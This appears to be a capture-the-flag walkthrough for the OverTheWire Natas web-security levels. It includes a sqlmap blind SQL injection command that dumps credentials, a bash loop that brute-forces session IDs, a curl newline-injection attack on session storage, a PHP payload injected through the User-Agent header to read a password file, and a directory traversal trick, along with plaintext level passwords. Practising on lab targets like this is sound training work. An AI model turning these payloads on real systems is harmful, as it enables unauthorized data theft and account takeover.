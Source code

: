 ### Using sqlmap

```sh
# technique: time-based blind - see https://github.com/sqlmapproject/sqlmap/wiki/Techniques
sqlmap -u http://natas17.natas.labs.overthewire.org/?debug
  --auth-type=Basic \
  --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw \
  --data="username=natas18" \
  --dbms=mysql \
  --technique=T \
  -D natas17 -T users -C username,password --dump -level=3 --risk=3 -v 3
```

## Level 19 -> 20

PHPSESSID is hex encoded.

```sh
user="admin"

for id in {1..640}; do
        sessid=$(echo -n "$id-$user" | xxd -p)
        response=$(curl --cookie "PHPSESSID=$sessid" http://natas19.natas.labs.overthewire.org/?debug -u "natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs")
        [[ "$response" =~ "You are an admin" ]] && echo "$id" && echo "$response" && exit 0
done
```

## Level 20 -> 21

Injection of a "admin" => "1" key value pair via the form, using curl. Response will show the PHPSESSID that was injected.

```sh
echo "\n" | xxd -p
curl -v  http://natas20.natas.labs.overthewire.org/index.php?debug -u "natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF" -d "name=%0a%0aadmin 1"
curl -v  http://natas20.natas.labs.overthewire.org/index.php?debug -u "natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF" --cookie "PHPSESSID=<value>"
```

## Level 25 -> 26

Directory traversal is possible with "....//" instead of "../": if the latter is removed from the former, you end up with... ".../".

User-Agent is saved in a log file named after the user's session token by logRequest(), without being escaped. Could we inject some php there?

```php
User-Agent: <?php global $__MSG; $__MSG = file_get_contents("/etc/natas_webpass/natas26"); ?>
```

## Level 26 -> 27

